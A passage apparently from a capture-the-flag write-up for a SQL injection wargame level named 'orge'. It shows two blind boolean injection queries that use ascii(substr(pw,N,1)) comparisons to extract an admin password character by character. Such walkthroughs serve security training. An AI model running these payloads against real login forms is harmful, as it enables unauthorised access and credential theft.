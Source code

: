 * d

`select id from prob_orge where id='guest' and pw='' || id='admin' && ascii(substr(pw,6,1))=100#'`

<img src="./img/orge7.png" width="700">

* e

`select id from prob_orge where id='guest' and pw='' || id='admin' && ascii(substr(pw,7,1))=101#'`

<img src="./img/orge8.png" width="700">
